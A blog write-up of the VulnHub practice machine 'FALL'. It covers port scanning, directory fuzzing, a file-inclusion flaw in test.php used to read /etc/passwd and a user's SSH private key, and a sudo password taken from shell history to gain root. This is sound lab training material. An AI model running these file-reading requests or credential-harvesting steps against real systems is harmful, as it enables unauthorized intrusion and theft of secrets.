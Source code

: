 ```yaml
---
layout: post
title:  "FALL"
date:   2021-09-13 20:00:00 +1000
category: hacking
---
```


I saw a few people mention [DIGITALWORLD.LOCAL: FALL](https://www.vulnhub.com/entry/digitalworldlocal-fall,726/) on the VulnHub discord so thought I would give it a go.

## Ports
A few here; mostly for distraction I guess?

1. SSH
2. HTTP
3. SMB (139/443)
4. HTTPS
5. MYSQL on 3306, and
6. Cockpit on 9090

I checked that mysql wasn't accessible and there was nothing on the SMB server:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/fall]
└─# smbclient -L //192.168.1.97
Enter WORKGROUP\roots password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.8.10)
SMB1 disabled -- no workgroup available
{% endhighlight %}

And having established that was boring, moved on to...

## HTTP
The website is running CMS Made Simple v. 2.2.15 which has several known exploits including SQLi and RCE but both require authentication, which we don't have. One of the posts on the blog says:

>Fellow administrators, stop polluting the webroot with all sorts of test scripts! This is production for heaven's sake!

So, let's fuzz for those?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/fall]
└─# feroxbuster -u http://192.168.1.97 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200 -C 403 -x sh,php,py,txt --no-recursion

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.1.97
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [sh, php, py, txt]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        7l       20w      234c http://192.168.1.97/admin
301        7l       20w      235c http://192.168.1.97/assets
200        0l        0w        0c http://192.168.1.97/config.php
301        7l       20w      232c http://192.168.1.97/doc
200        3l        6w     1150c http://192.168.1.97/favicon.ico
200      296l      552w        0c http://192.168.1.97/index.php
301        7l       20w      232c http://192.168.1.97/lib
301        7l       20w      236c http://192.168.1.97/modules
200        1l        3w        0c http://192.168.1.97/phpinfo.php
200        7l       14w       79c http://192.168.1.97/robots.txt
200        5l        7w        0c http://192.168.1.97/test.php
301        7l       20w      236c http://192.168.1.97/uploads
301        7l       20w      232c http://192.168.1.97/tmp
[####################] - 7s     23510/23510   0s      found:13      errors:169    
[####################] - 7s     23510/23510   3247/s  http://192.168.1.97
{% endhighlight %}

Right, we've got **test.php**. What can we do with that? It says:

{% highlight html %}
<html>
<body>
<script>alert('Missing GET parameter!');</script>
</body>
</html>
{% endhighlight %}

I fuzz it with Burp Turbo Intruder, initially with:

```
GET /test.php?%s=id HTTP/1.1
```

The parameter name *file* returns a 200 OK so I try 

```
GET /test.php?file=/etc/passwd HTTP/1.1
```

This works, and we appear to have one user; qiu. It's not too simple is it?

```
GET /test.php?file=/home/qiu/.ssh/id_rsa HTTP/1.1
```

Actually yes, we get the SSH private key.

## Privesc
Our user is a sudoer, and has left his password in his .bash_history, so it's game over:

{% highlight shell %}
[qiu@FALL ~]$ ls -lash                                                                     total 492K                                                                                    0 drwxr-xr-x. 4 qiu  qiu   200 Sep 13 03:19 .                                              0 drwxr-xr-x. 3 root root   17 Aug 14  2019 ..                                         4.0K -rw-------  1 qiu  qiu   292 Sep  5 19:30 .bash_history                               4.0K -rw-r--r--. 1 qiu  qiu    18 Mar 15  2018 .bash_logout                               4.0K -rw-r--r--. 1 qiu  qiu   193 Mar 15  2018 .bash_profile                               4.0K -rw-r--r--. 1 qiu  qiu   231 Mar 15  2018 .bashrc                                        0 drwx------  2 qiu  qiu    60 Sep 13 02:58 .gnupg                                     
4.0K -rw-r--r--  1 qiu  qiu    27 May 21 10:13 local.txt
4.0K -rw-------  1 qiu  qiu   118 Sep 13 03:19 .mysql_history
4.0K -rw-rw-r--  1 qiu  qiu    38 May 21 10:19 reminder
   0 drwxr-xr-x  2 qiu  qiu    61 May 21 11:49 .ssh
4.0K -rw-rw-r--  1 qiu  qiu   180 Sep 13 02:58 .wget-hsts
[qiu@FALL ~]$ cat .bash_history
ls -al
cat .bash_history 
rm .bash_history
echo "remarkablyawesomE" | sudo -S dnf update
ifconfig
ping www.google.com
ps -aux
ps -ef | grep apache
env
env > env.txt
rm env.txt
lsof -i tcp:445
lsof -i tcp:80
ps -ef
lsof -p 1930
lsof -p 2160
rm .bash_history
exit
ls -al
cat .bash_history
exit
[qiu@FALL ~]$ sudo -l
[sudo] password for qiu: 
Matching Defaults entries for qiu on FALL:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on FALL:
    (ALL) ALL
[qiu@FALL ~]$ sudo su
[root@FALL qiu]# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
FALL
Mon Sep 13 03:21:03 PDT 2021
[root@FALL qiu]# cd /root
[root@FALL ~]# ls -lash
total 40K
   0 dr-xr-x---.  3 root root  206 Sep  5 20:54 .
   0 dr-xr-xr-x. 17 root root  244 May 21 17:55 ..
4.0K -rw-------.  1 root root 3.9K Aug 14  2019 anaconda-ks.cfg
4.0K -rw-------   1 root root   57 Sep  5 20:54 .bash_history
4.0K -rw-r--r--.  1 root root   18 Feb  9  2018 .bash_logout
4.0K -rw-r--r--.  1 root root  176 Feb  9  2018 .bash_profile
4.0K -rw-r--r--.  1 root root  176 Feb  9  2018 .bashrc
4.0K -rw-r--r--.  1 root root  100 Feb  9  2018 .cshrc
4.0K -rw-------.  1 root root 3.1K Aug 14  2019 original-ks.cfg
4.0K ----------   1 root root   30 May 21 10:22 proof.txt
4.0K -r--------   1 root root  452 Aug 30 05:08 remarks.txt
   0 drwx------   2 root root   25 Sep  5 19:39 .ssh
4.0K -rw-r--r--.  1 root root  129 Feb  9  2018 .tcshrc
[root@FALL ~]# cat proof.txt
Congrats on a root shell! :-)
[root@FALL ~]# cat remarks.txt
Hi!

Congratulations on rooting yet another box in the digitalworld.local series!

You may have first discovered the digitalworld.local series from looking for deliberately vulnerably machines to practise for the PEN-200 (thank you TJ_Null for featuring my boxes on the training list!)

I hope to have played my little part at enriching your PEN-200 journey.

Want to find the author? Find the author on Linkedin by rooting other boxes in this series!
[root@FALL ~]#
{% endhighlight %}

Pretty straightforward if you dodge the rabbit holes.
